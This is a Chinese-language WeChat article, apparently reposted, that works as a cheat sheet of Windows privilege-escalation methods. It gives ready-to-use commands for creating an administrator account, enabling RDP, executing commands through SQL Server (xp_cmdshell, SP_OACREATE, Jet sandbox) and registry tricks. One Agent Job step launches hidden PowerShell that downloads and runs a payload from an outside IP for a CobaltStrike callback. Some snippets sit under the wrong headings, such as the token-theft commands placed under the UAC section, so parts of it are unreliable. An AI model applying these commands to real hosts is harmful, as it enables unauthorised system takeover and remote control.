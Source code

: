 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yneVLSUOrAwBGpBWmTwi5g)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

> **文章来****源：****Bypass**

当获取主机权限时，我们总是希望可以将普通用户提升为管理员用户，以便获得高权限完全控制目标主机。Windows 常用的提权方式有：内核提权、数据库提权、系统配置错误提权、组策略首选项提权、Bypass UAC 提权、令牌窃取提权等姿势。

**1、内核溢出漏洞提权**

由于目标系统没有及时安装补丁，攻击者可以利用 Windows 系统内核溢出漏洞进行提权，轻易获取 system 权限。

（1）通过 systeminfo 比对 KB 编号，发现系统是否存在漏洞。

github 项目地址：

```
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

（2）找到对应漏洞的 exp 执行，获取 system 权限

github 项目地址：

```
https://github.com/SecWiki/windows-kernel-exploits
```

（3）添加管理员

```
net user 用户名 密码 /add
net localgroup Administrators 用户名 /add
```

（4）开启远程桌面

```
# 开启远程
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
# 查询远程端口
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber
```

**2、数据库提权**

**2.1 MySQL 提权**

利用 mysql 的几种提权方式，如 udf 提权、mof 提权、启动项提权等。

```
udf提权：通过创建用户自定义函数，对mysql功能进行扩充，可以执行系统任意命令，将mysql账号root转化为系统system权限。
mof提权：在windows平台下，c:/windows/system32/wbem/mof/nullevt.mof 这个文件会每间隔一段时间（很短暂）就会以system权限执行一次，所以，只要我们将我们先要做的事通过代码存储到这个mof文件中，就可以实现权限提升。
启动项提权：将后面脚本上传到系统启动目录，当服务器重启就会自动执行该脚本，从而获取系统权限。
```

**2.2 SQL Server 提权**

利用 SQL Sercer 执行系统命令的方式也有多种，比如 xp_cmdshell、SP_OACREATE、沙盒、Agent Job、CLR 来提权。

1、使用 xp_cmdshell 进行提权

```
# 启用xp_cmdshell
EXEC master..sp_configure 'show advanced options', 1;RECONFIGURE;EXEC master..sp_configure 'xp_cmdshell', 1;RECONFIGURE;
# 通过xp_cmdshell执行系统命令
Exec master.dbo.xp_cmdshell 'whoami'
```

2、SP_OACREATE

```
# 开启组件
EXEC sp_configure 'show advanced options', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'Ole Automation Procedures', 1;RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'show advanced options', 0;
# 执行系统命令（无回显）
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami'
```

3、通过沙盒执行命令

```
# 开启沙盒
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1
# 利用jet.oledb执行命令
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
```

4、通过 Agent Job 执行命令

修改开启 Ageent Job，执行无回显 CobaltStrike 生成 powershell 上线

```
USE msdb; EXEC dbo.sp_add_job @job_name = N'test_powershell_job1' ; EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.214.129:80/a''))"', @retry_attempts = 1, @retry_interval = 5 ;EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; EXEC dbo.sp_start_job N'test_powershell_job1';
```

**3、系统配置错误提权**

**3.1 权限配置错误**

如果管理员权限配置错误，将导致低权限用户对高权限运行的文件拥有写入权限，那么低权限用户就可以替换成恶意后门文件，获取系统权限。一般在启动项、计划任务，服务里查找错误配置，尝试提权。

**3.2 可信任服务路径漏洞**

当一个服务的可执行文件路径含有空格，却没有使用双引号引起来，那么这个服务就存在漏洞。根据优先级，系统会对文件路径中空格的所有可能进行尝试，直到找到一个匹配的程序。

**3.3 不安全的注册表权限配置**

如果低权限用户对程序路径所对应的键值有写权限，那么就可以控制这个服务，运行后门程序，从而获取权限。

```
# 存储Windows服务有关的信息
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
# 服务对应的程序路径存储
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service\服务名\ImagePath
3.4 AlwaysInstallElevated
```

```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac 
meterpreter > getuid
meterpreter > getsystem
```

注册表键 AlwaysInstallElevated 是一个策略设置项。windows 允许低权限用户以 System 权限运行安装文件。如果启用此策略设置项，那么任何权限用户都能以 NT AUTHORITY\SYSTEM 权限来安装恶意的 MSI(Microsoft Windows Installer) 文件。

**4、组策略首选项提权**

SYSVOL 是域内的共享文件夹，用来存放登录脚本、组策略脚本等信息。当域管理员通过组策略修改密码时，在脚本中引入用户密码，就可能导致安全问题。

（1）访问 SYSVOL 共享文件夹，搜索包含 “cpassword” 的 XML 文件，获取 AES 加密的密码。

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4kwplROZmicJMJjkibwo2JKfcmYC7HAicmPWiabkPEBFqkMiaZdUc2MpPTftkByFkyyFq59woY3E64Uq3Q/640?wx_fmt=png)

（2）使用 kali 自带的 gpp-decrypt 进行破解

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4kwplROZmicJMJjkibwo2JKfcu9iaiczpyYCXjlmjnPyoPxItgicZ3Z78libibMOo3NXOibMRWiaaRtgHV6v3A/640?wx_fmt=png)

**5、Bypass UAC 提权**

UAC(User Account Control，用户账号控制)，是微软引入的一种安全机制。Bypass UAC 提权，可以将管理员权限提升到 system 权限。

使用 msf 模块：

```
meterpreter > use incognito           #进入incognito模块
meterpreter > list_tokens -u          #列出令牌
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"   #模拟令牌
```

**6、令牌窃取提权**

通过窃取令牌获取管理员权限，在 MSF 中，可以使用 incognito 实现 token 窃取。

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

*[Linux 提权的几种常用方式](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650499072&idx=3&sn=8c16858820d264d2f09859f5bc0c5351&chksm=83ba0de4b4cd84f2668fcef33d2a5c798f07e2cc56200113e0a4606ca496694bd1d6aec585df&scene=21#wechat_redirect)

* [环境变量法提权](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650496934&idx=3&sn=1e5c3f5384bfee60ba1f8bb8d4abcac8&chksm=83ba3a42b4cdb354f47b042640653177c4b96eaf6ce2790374812ca6cbef6193e41f2d2d96d3&scene=21#wechat_redirect)

* [系统内核溢出提权](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650484019&idx=3&sn=17b399ab383633255dddbc1711aac935&chksm=83ba48d7b4cdc1c1695195d6bacf52dd306bdf82e75d4a4beaedfdc88e3fe56f298e4073be5f&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)
